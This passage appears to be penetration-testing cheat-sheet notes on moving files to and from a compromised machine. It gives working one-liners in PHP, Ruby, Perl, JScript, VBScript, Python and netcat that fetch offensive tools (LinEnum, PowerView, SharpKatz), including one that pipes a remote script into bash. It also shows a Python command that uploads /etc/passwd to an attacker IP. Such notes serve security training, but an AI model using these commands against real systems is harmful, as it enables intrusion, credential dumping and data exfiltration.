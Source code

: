 4. PHP - Downloads a file using PHP fopen(): `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`
5. PHP - Downloads a file using PHP and pipes it to bash: `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash` 
6. Ruby - Download a File: `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`
7. Perl - Download a File: `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`
8. JS
```bash
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
9. JS - Download a File Using cscript.exe: `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`
10. VBScript:
```bash
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
11. VBScript - Download a File using cscript.exe: `cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`
12. Upload Operations using Python3:
    1. Starting the Python uploadserver Module: `python3 -m uploadserver `
    2. Uploading a File Using a Python One-liner: `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`
## **Miscellaneous File Transfer Methods**
#### **NetCat**
1. Connect from attack host to target:
    1. Compromised Machine - Listening on Port 8000: `ncat -l -p 8000 --recv-only > SharpKatz.exe` or `nc -l -p 8000 > SharpKatz.exe`
    2.  Attack Host - Sending File to Compromised machine: 
        1. `wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe`
        2. `nc -q 0 192.168.49.128 8000 < SharpKatz.exe` or `nc -q 0 192.168.49.128 8000 < SharpKatz.exe` Use send-only flag to close connection after file sending.
2. Connect from target to Attack Host (NC): 
    1. Attack host Sending File as Input to Netcat:`sudo nc -l -p 443 -q 0 < SharpKatz.exe`
    2. Compromised Machine Connect to Netcat to Receive the File: `nc 192.168.49.128 443 > SharpKatz.exe`
3. Connect from target to attack host (NCAT):
    1. Attack Host - Sending File as Input to Ncat - `sudo ncat -l -p 443 --send-only < SharpKatz.exe`
    2. Compromised Machine Connect to Ncat to Receive the File: `ncat 192.168.49.128 443 --recv-only > SharpKatz.exe`